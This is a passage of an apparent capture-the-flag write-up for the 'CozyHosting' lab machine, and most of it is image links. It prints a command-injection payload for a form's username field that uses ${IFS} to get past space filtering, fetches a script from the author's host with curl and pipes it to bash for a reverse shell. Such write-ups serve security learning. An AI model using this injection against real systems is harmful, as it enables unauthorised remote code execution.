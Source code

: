 ![](./assets/images/cozyhosting_ifs01.jpg)


![](./assets/images/cozyhosting_ifs02.jpg)

And as we can see, we receive the ping, so the IFS variable technique worked.

**Now we are going to create a payload to get a reverse shell.**

```bash
host=10.10.14.192&username=;curl${IFS}http://10.10.14.192/rev.sh${IFS}|bash;alter
```
The payload is going to use curl command to access my reverse shell hosting on my local machine and the output will be the input for bash:

![](./assets/images/cozyhosting_ifs03.jpg)